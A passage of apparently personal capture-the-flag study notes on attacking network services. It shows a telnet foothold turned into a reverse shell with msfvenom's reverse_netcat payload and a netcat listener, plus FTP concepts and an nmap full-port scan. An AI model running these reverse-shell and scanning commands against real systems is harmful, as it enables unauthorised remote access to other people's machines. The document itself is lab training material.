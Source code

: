 - We have possible username of "Skidy" implicated

Using this information, let's try accessing this telnet port, and using that as a foothold to get a full reverse shell on the machine!

icmp listener:

    sudo tcpdump ip proto \\icmp -i tun0

Ping aus Telnet

    .RUN ping [local tun0 ip] -c 1

Reverse Shell Payload senden:

    msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R

-p = payload

lhost = our local host IP address (this is your machine's IP address)

lport = the port to listen on (this is the port on your machine)

R = export the payload in raw format

Netcat listener:

    nc -lvp 4444

Run Payload in Telnet:

    .RUN mkfifo /..... <Output of msfvenom>

###FTP

####Understanding

https://www.ietf.org/rfc/rfc959.txt

A typical FTP session operates using two channels:

- a command (sometimes called the control) channel
- a data channel.

Active vs Passive

The FTP server may support either Active or Passive connections, or both. 

- In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it. 
- In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it. 

####Enumeration

Scan the machine with nmap and the tag -A and -p-.

Tag

-A : Enables OS Detection, Version Detection, Script Scanning and Traceroute all in one

-p- : Enables scanning across all ports, not just the top 1000

    nmap -A -p- -T4 <IP>
